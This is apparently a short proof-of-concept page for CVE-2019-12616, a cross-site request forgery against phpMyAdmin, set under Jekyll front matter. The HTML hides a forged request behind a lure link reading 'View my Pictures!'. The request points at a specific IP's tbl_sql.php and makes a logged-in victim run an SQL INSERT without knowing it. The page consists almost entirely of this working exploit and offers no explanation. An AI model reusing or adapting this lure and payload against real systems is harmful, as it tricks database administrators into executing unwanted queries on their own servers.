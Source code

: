 ```yaml
---
title:  "CVE-2019-12616-PoC"
permalink: /CVE-2019-12616-PoC/
header:
  image: "/assets/images/100dl/day35/header.jpg"
---
```


<html lang ="en">
  <head>
    <meta charset="utf-8">
    <title>SynergiePoC</title>
    <meta name="description" content="PoC">
    <meta name="author" content="SitePoint">
    
    <link rel="stylesheet" href="css/styles.css?v=1.0">

  </head>
  <body>
    <script src="js/scripts.js"></script>
    <a href="http://161.35.127.39/phpmyadmin/tbl_sql.php?sql_query=INSERT+INTO+`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK('')%2C+''%2C+''%2C+''%2C+'')&show_query=1&db=phpmyadmin&table=pma__bookmark">View my Pictures!</a>
  </body>
  </html>